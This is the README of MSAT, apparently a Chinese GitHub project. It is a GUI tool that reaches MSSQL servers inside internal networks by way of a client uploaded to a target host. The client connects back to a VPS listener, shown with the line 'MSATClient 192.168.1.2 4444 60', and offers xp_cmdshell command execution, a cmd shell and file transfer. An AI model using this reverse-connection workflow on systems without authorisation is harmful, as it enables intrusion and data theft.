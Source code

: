 # MSAT

MSAT是一款MSSQL正反向连接可视化工具。

开发原因是遇到了较多的sql server数据库，但是大多处于内网。访问时都需要进入内网才能连接操作。在一番寻找之后没有发现合适的工具，于是本着学习.NET的打算，一通乱写，整出了这么个破玩意。勉强可以用一用。应该没有造车轮吧。由于使用到了Dev插件，导致服务端软件较大。命令执行部分对流量进行了一些简单加密。

### 使用方法

软件分为两个部分，客户端和服务端。

#### [客户端](https://github.com/GabgM/MSATClient)
.NET Framework版本： 3.5

将客户端上传到目标主机后，使用cmd打开。

```cmd
MSATClient ip port [time]
```

ip: VPS的IP地址

port：设置的VPS监听端口

time：可选参数，如果省略表示持续运行。加参数表示固定时间后自动断开socket连接，时间单位为分钟。注意：不会删除客户端程序，只是断开连接。

例：

```cmd
MSATClient 192.168.1.2 4444 60
表示连接192.168.1.2的4444端口，并且在60分钟后自动断开连接
```

#### [服务端](https://github.com/GabgM/MSATServer)
.NET Framework版本： 4.7.2

将压缩包解压，打开MSATServer.exe即可。

![](https://github.com/GabgM/MSAT/raw/master/image/0.PNG)

服务端有两种Socket运行方式。

①、当HOST为0.0.0.0时，监听本地端口，等待客户端反向连接。

②、当HOST不为0.0.0.0时，正向连接填写的host，搭配LCX使用，与客户端连接。

第二种连接方式存在一定的问题，只能勉强使用。

连接完成后，点击登陆按钮，连接数据库就可以正常使用了。

![](https://github.com/GabgM/MSAT/raw/master/image/1.PNG)

注意：数据库结构目前貌似只能是sa用户才能正常获取。当进行数据查询时，客户端的CPU占用会大幅度增加(25%左右)，用于对数据的处理。

当目标开启xp_cmdshell功能后，可以直接输入命令执行。

![](https://github.com/GabgM/MSAT/raw/master/image/2.PNG)

除了MSSQL的使用，还额外增加了cmd，和文件传输的功能。

下载文件，输入客户端文件的绝对路径即可。

上传文件，点击按钮选择即可。

![](https://github.com/GabgM/MSAT/raw/master/image/3.PNG)

最后，当需要退出程序时，会有两种退出方式。

![](https://github.com/GabgM/MSAT/raw/master/image/4.PNG)

点击是，会在退出服务端的同时关闭客户端。

点击否，只会退出服务端。



### 最后
本软件仅用于学习交流！

